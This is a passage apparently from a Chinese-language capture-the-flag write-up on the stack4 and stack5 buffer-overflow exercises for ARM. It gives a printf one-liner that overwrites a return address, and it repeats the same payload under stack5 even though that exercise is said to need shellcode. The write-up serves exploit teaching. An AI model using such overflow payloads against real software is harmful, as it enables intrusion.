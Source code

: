 
也就是覆盖最后4个字节为00 01 04 4c。

答案就是：


```
printf '11111111111111111111111111111111111111111111111111111111111111111111\x4c\x04\x01\x00' | ./stack4
```
![](/media/15123526858244.jpg)


# 题目 Stack5


先看代码与stack4一样，不同的是：这次我们要执行自己的shellcode。

shellcode 我们就用之前章节的 https://azeria-labs.com/writing-arm-shellcode/

```
printf '11111111111111111111111111111111111111111111111111111111111111111111\x4c\x04\x01\x00' | ./stack5

```
